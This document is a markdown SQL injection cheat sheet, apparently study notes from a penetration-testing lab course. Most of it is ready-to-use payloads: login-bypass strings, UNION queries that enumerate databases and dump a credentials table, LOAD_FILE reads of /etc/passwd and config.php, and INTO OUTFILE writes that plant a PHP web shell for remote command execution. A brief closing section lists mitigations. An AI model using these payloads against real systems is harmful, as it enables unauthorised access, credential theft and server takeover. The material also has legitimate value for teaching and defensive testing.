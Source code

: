 # **Authentication Bypass**
```sql
admin' or '1'='1
```
###### **Using Comments**
```sql
admin'--
```

```SQL
admin')--
```
###### **LOGIN with ID**
```SQL
' OR id=5)-- -
```
# UNION
###### **ORDER BY**
```sql
' order by 1-- -
```

```sql
cn' UNION select 1,2,3-- -
```
###### **Location of Injection**
```sql
cn' UNION select 1,@@version,3,4-- -
```
# **Database Enumeration**
###### MySQL Fingerprinting

| Payload              | When to Use                      | Expected Output                                   | Wrong Output                                              |
| -------------------- | -------------------------------- | ------------------------------------------------- | --------------------------------------------------------- |
| **SELECT @@version** | When we have full query output   | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| **SELECT POW(1,1)**  | When we only have numeric output | 1                                                 | Error with other DBMS                                     |
| **SELECT SLEEP(5)**  | Blind/No Output                  | Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS                   |
###### **SCHEMATA**
```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
###### DATABASE
```sql
cn' UNION select 1,database(),2,3-- -
```
###### TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
###### COLUMNS
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
###### Data
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
# Reading Files
###### DB User
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
###### User Privileges
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
###### LOAD_FILE
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
###### SEARCH.PHP
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```
###### CONFIG.PHP
```SQL
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```
# Writing Files
###### secure_file_priv
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
###### SELECT INTO OUTFILE
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
###### Writing a Web Shell
**shell.php**
```php
<?php system($_REQUEST[0]); ?>
```
**Remote Code Execution**
```sql
cn' union select "",'<?php echo "Shell";system($_GET['cmd']); ?>', "", "" into outfile '/var/www/html/web_shell.php'-- -
```
# Mitigating SQL Injection
###### Input Sanitization
**MySQL**
[mysqli_real_escape_string()](https://www.php.net/manual/en/mysqli.real-escape-string.php)
**PostgreSQL**
[pg_escape_string()](https://www.php.net/manual/en/function.pg-escape-string.php)
###### Input Validation
[preg_match()](https://www.php.net/manual/en/function.preg-match.php)
###### User Privileges
```MariaDB
CREATE USER 'reader'@'localhost';
```

```MariaDB
GRANT SELECT ON ilfreight.ports TO 'reader'@'localhost' IDENTIFIED BY 'p@ssw0Rd!!';
```

https://book.hacktricks.xyz/pentesting-web/sql-injection